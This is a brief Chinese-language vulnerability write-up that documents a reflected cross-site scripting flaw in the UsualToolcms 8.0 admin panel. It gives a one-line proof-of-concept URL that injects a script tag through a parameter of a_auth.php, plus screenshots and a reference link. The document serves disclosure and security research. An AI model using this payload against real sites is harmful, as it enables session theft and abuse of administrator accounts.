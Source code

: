 UsualToolcms 8.0 后台反射型XSS
==============================

一、漏洞简介
------------

二、漏洞影响
------------

UsualToolcms 8.0

三、复现过程
------------

![1.png](./.resource/UsualToolcms8.0后台反射型XSS/media/rId24.png)

### poc

    https://www.0-sec.org/cmsadmin/a_auth.php?do=update&l=%22%3C/script%3E%3Cscript%3Ealert(1)%3C/script%3E

![2.png](./.resource/UsualToolcms8.0后台反射型XSS/media/rId26.png)

参考链接
--------

> https://xz.aliyun.com/t/8100
